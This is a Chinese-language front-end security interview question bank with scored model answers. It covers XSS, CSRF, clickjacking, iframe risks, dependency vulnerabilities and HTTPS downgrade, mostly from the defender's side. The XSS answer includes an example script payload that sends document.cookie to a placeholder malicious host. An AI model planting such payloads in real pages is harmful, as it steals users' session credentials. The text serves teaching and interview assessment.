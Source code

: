 # 前端安全

## XSS 攻击

#### 类型：`基础`

#### 级别：`W3`、`W4`、`W5`、`W6`

#### 解答（3 分）

- **:1** XSS（Cross Site Scripting，跨站脚本），即攻击者往 Web 页面里嵌入恶意的客户端脚本，当用户浏览此网页时，脚本就会在用户的浏览器上执行，进而达到攻击者的目的。【获取用户的 Cookie、导航到恶意网站、携带木马】
- **:2** 防御：  

 >1、对输入和 URL 参数进行过滤，过滤掉会导致脚本执行的相关内容。  
 >2、对动态输出到页面的内容进行 html 编码，使脚本无法在浏览器中执行。

## CSRF 攻击

#### 类型：`基础`

#### 级别：`W3`、`W4`、`W5`、`W6`

#### 解答（5 分）

- **:1** CSRF（Cross Site Request Forgery，跨站请求伪造），即在别的站点伪造了一个请求，在受害者访问一个网站时，其 cookie 还没有过期的情况下，攻击者伪造一个链接地址发送受害者并欺骗让其点击，从而形成 CSRF 攻击。
- **:4** 防御：  

 >1、验证 HTTP 的 Referer 字段。  
 >2、在请求地址中添加 token 并验证。  
 >3、在 HTTP 头中自定义属性并验证。  
 >4、涉及到数据修改操作严格使用 post 请求而不是 get 请求。  
 >>get 的 URL 会被放在浏览器历史和 WEB 服务器日志里面，如果把关键数据放在 get 里面，被人偷窥了浏览器，会造成数据泄露。而 post 日志没有记录，也不会保留 URL，只要数据库服务器不被入侵，基本还是安全的。

## iframe 风险

#### 类型：`基础`

#### 级别：`W3`、`W4`、`W5`、`W6`

#### 解答（2 分）

- **:1** 前端页面需要用到第三方提供的页面组件，通常会以 iframe 的方式引入，比如广告插件等。这些第三方提供的插件可以运行 js 脚本、flash 插件等，破坏用户体验。
- **:1** 防御：  

 >iframe 中有一个叫做 sandbox 的安全属性，通过它可以对 iframe 的行为进行各种限制，充分实现“最小权限”原则。  

## 点击劫持

#### 类型：`基础`

#### 级别：`W3`、`W4`、`W5`、`W6`

#### 解答（6 分）

- **:1** 通过 iframe 使用别人提供的内容时，自己的页面也可能正在被不法分子放到他们精心构造的 iframe 中，进行点击劫持攻击。这是一种欺骗性强、用户参与高的攻击。
- **:2** 通常的攻击步骤是这样的：  

 >1、攻击者构造一个诱导用户点击的内容，比如页面小游戏。  
 >2、将我们的页面放入到 iframe 当中。  
 >3、利用 z-index 等 CSS 样式将这个 iframe 叠加到小游戏的垂直方向的正上方。  
 >4、把 iframe 设置为100%透明度。  
 >5、受害者访问到这个页面后，肉眼看到的是一个小游戏，如果受到诱导进行了点击的话，实际上点击到的却是 iframe 中的我们自己的页面。

- **:1** 危害：  

 >攻击者利用了受害者的用户身份，在其不知情的情况下进行一些操作。如果是删除某个重要文件记录，或者窃取敏感信息，那么造成的危害就难以承受。

- **:2** 防御：

 >1、使用 X-Frame-Options：DENY 这个 HTTP Header 来明确的告知浏览器，不要把当前HTTP响应中的内容在HTML Frame 中显示出来。
 >2、判断当前页面是否被嵌入到 iframe 中。

## 第三方依赖包带来的问题

#### 类型：`基础`

#### 级别：`W3`、`W4`、`W5`、`W6`

#### 解答（2 分）

- **:1** 现在绝大多数的开发都是在借助开发框架和各种类库进行快速开发。这样做虽然方便快速，但是与此同时也存在安全风险，如果这些来自第三方的代码有安全漏洞，那么对应用整体的安全性依然会造成严峻的挑战。
比如 Node.js 有一些已知的安全漏洞，比如 CVE-2017-11499，可能导致前端应用受到 DoS 攻击。

- **:1** 防御：  

 >使用 NSP(Node Security Platform)、Snyk 等等这类工具。

## https 存在的风险

#### 类型：`基础`

#### 级别：`W3`、`W4`、`W5`、`W6`

#### 解答（4 分）

- **:1** 即使是服务器端开启了 https，也还是存在安全隐患，黑客可以利用 SSL Stripping 这种攻击手段，强制让 https 降级回 http，从而继续进行中间人攻击。
- **:2** 过程:  

 >1、用户在浏览器里输入 URL 的时候往往不是从 https:// 开始的，而是直接从域名开始输入；  
 >2、随后浏览器向服务器发起 http 通信;  
 >3、攻击者把服务器端返回的跳转到 https 页面的响应拦截了，并且代替客户端和服务器端进行后续的通信。  

- **:1** 防御：  

 >使用 HSTS（HTTP Strict Transport Security），通过 HTTP Header 以及一个预加载的清单，来告知浏览器在和网站进行通信的时候强制性使用 HTTPS，而不是通过明文的HTTP进行通信。
 并且当遇到证书或者链接不安全的时候，则首先警告用户，并且不再让用户继续进行不安全的通信。
 
## 什么是跨站脚本攻击（XSS）？如何防范？

#### 类型：`基础`

#### 级别：`W1`、`W2`、`W3`、`W4`、`W5`、`W6`

#### 解答（9 分）

<details>

- **2：** 跨站脚本攻击（XSS）是一种常见的网络安全漏洞。它允许攻击者将恶意脚本（通常是 JavaScript，但也可以是其他客户端脚本语言，如 VBScript）注
入到目标网站中。这些恶意脚本在用户的浏览器中执行，因为浏览器会把它当作正常的脚本代码来解析。例如：
一个存在 XSS 漏洞的网站有一个评论功能。攻击者在评论框中输入一段包含恶意 JavaScript 代码的评论，如
`<script>document.location = 'http://malicious - site.com?cookie=' + document.cookie</script>`。当其他用户访问包含这条评论
的页面时，他们的浏览器会执行这段脚本。这段脚本会获取用户的浏览器 cookie 信息（其中可能包含用户的登录凭证等敏感信息），并将其发送到攻击者指定的恶意
网站`（http://malicious - site.com）`。

- **1：** 输入验证和过滤：<br/>
&emsp;对用户输入进行严格验证：在接收用户输入的地方（如表单提交、URL 参数等），要验证输入的内容是否符合预期的格式。例如，如果是一个只允许输入数字的字段，要检查输入是否真的是数字。
&emsp;过滤特殊字符：对于可能包含脚本代码的字符进行过滤。例如，对<、>、&、"、'等 HTML 特殊字符进行转义。在 JavaScript 中，可以使用encodeURIComponent()函数对用户输入的 URL
 参数进行编码，在服务器端也可以使用相应的函数来处理。例如在 PHP 中，使用htmlspecialchars()函数来转义 HTML 中的特殊字符，这样可以防止用户输入的内容被当作 HTML 标签或脚本解析。
- **2：** 输出编码：<br/>
&emsp;根据输出上下文进行编码：当把用户输入的数据输出到 HTML 页面时，要根据输出的位置进行合适的编码。如果是输出到 HTML 标签内部的文本内容，应该使
用 HTML 实体编码。例如，`将<转义为&lt;，>转义为&gt;`。如果是输出到 JavaScript 代码中的变量，要使用 JavaScript 编码，如对引号等进行转义，以防止代码注入。
- **2：** 内容安全策略（CSP）：<br/>
&emsp;设置策略限制脚本来源：CSP 是一种浏览器安全机制，它允许网站所有者定义哪些来源的脚本可以在页面上执行。例如，可以在服务器的响应头中设
置`Content-Security-Policy: default- src'self'; script-src'self' https://trusted-scripts.com`。这意味着默认情况下，只允许来自当前网
站（self）的资源加载，而脚本可以来自当前网站和`https://trusted - scripts.com`。这样可以防止外部恶意脚本的注入。<br/>
&emsp;阻止内联脚本和 eval () 函数的滥用：CSP 还可以设置script-src指令为'nonce-value'或'hash-value'来限制内联脚本的执行。内联脚本是直接写在
HTML 标签中的脚本，如`<script>alert('XSS');</script>`，这种形式的脚本容易被攻击者利用。同时，限制eval()函数的使用，因为eval()可以动态地执行字符串形式的 JavaScript 代码，
攻击者可能会利用它来执行恶意代码。
- **2：** 使用安全的库和框架：利用内置的安全机制，许多现代的前端框架（如 React、Vue.js）都有内置的安全机制来防止 XSS。例如，React 会自动对输出到 DOM 中的内容进行转义，除非你使用dangerouslySetInnerHTML属性（这种情况下开发者需要自己确保内容是安全的）。Vue.js 也有类似的机制，在使用插值表达式`（{{}}）`时会对内容进行 HTML 转义，防止脚本注入。

</details>

## 前端如何防止点击劫持？

#### 类型：`基础`

#### 级别：`W1`、`W2`、`W3`、`W4`、`W5`、`W6`

#### 解答（2 分）

- **2：** 可以使用 X-Frame-Options 响应头来限制页面能否被嵌套在 iframe 中，例如设置为 DENY 禁止任何页面嵌套，或者 SAMEORIGIN 只允许同源页面嵌套。
